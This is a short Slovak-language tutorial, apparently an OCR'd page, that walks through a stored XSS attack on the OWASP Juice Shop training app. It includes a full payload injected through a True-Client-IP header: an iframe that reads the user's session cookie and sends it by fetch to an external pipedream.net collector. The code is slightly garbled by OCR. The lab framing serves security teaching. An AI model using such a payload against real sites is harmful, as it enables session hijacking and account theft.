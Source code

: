 # Stored cross site scripting (XSS)

- Stored cross site scripting (XSS) je nazývaný stored kvôli tomu, že škodlivý kód je ukladaný v databáze aplikácii a je spustený každý krát keď uživateľ navštívy danú stránku. Ukážeme si krátku ukážku na Juice shop aplikácii.
- Pre tento typ útoku budeme potrebovať taktiež nástroj, ktorý bude zachytávať HTTP požiadavky na server, čo nám umožnuje vidieť a upraviť každú jednu požiadavku. Zaužívaným nástrojom pre tieto potreby je PortSwigger.
- V Juice shop aplikácii máme samostatnú obrazovku, ktorá zobrazuje poslednú IP adresu z ktorej sme boli prihlásený. Táto posledná IP adresa sa získava z databázy. Pri odhlasovaní z účtu vieme odchytiť požiadavku na odhlásenie
            pomocou PortSwiggera a upraviť odosielanú IP adresu, ktorá sa ukladá do databázy. 
- Pri odchytení požiadavky pridáme do hlavičky requestu ešte jeden atribút True-Client-IP s hodnotout
        <pre>
            iframe src="javascript:const headers = new Headers();headers.append(‘Content-Type‘, ‘text/p-
            lain‘);const body = test: ‘event‘,;const options = method: ‘POST‘,headers,mode: ‘cors‘,body:
            document.cookie.split(‘ ‘)[4].split(‘=‘)[1],;fetch(‘https://eojph9o2kgja7k2.m.pipedream.net‘,
            options);" /iframe
        </pre>
              a požiadavku posunieme na server.
- Pri dalšom prihlasovaní sa pre obrazovku, kde zobrazujeme poslednú IP adresu prihlásenia, úž nezobrazí IP adresa ale náš kód, ktorý odošle požidavku na náš server so session tokenom.